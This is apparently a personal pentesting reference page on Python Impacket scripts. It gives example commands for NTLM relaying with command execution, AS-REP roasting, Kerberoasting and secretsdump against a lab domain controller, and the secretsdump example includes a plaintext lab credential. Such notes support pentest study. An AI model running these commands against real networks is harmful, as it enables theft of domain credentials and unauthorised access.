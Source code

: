 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts:
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
Gets [kerberos](../../../../networking/protocols/kerberos.md) TGTs from users which have the *`UF_DONT_REQUIRE_PREAUTH`* (which means they have pre-authentication turned off). 

From these types of users we can get their *AS_REP* which is *partially encrypted using their password*. 

Once we have the AS-REP, we can give it to [hashcat](../../cracking/tools/hashcat.md) for cracking (and getting the plaintext password).
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile users.lst -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```bash
secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
- The domain, user, password, and IP should be surround in quotesq